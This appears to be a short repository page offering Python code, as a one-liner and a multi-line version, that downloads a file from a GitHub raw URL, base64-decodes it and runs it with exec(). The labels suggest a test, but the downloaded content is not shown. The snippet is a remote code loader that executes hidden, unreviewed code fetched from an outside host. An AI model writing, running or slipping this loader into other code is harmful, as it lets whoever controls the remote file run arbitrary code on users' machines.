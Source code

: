 One-Liner: import requests; import base64; import json; data = requests.get('https://raw.githubusercontent.com/TheCodeFox-tech/PythonRemoteTest/main/Test.json'); exec(base64.b64decode(data.text).decode('utf-8'))
Multi-Liner: 
import requests
import base64
import json
data = requests.get('https://raw.githubusercontent.com/TheCodeFox-tech/PythonRemoteTest/main/Test.json')
exec(base64.b64decode(data.text).decode('utf-8'))

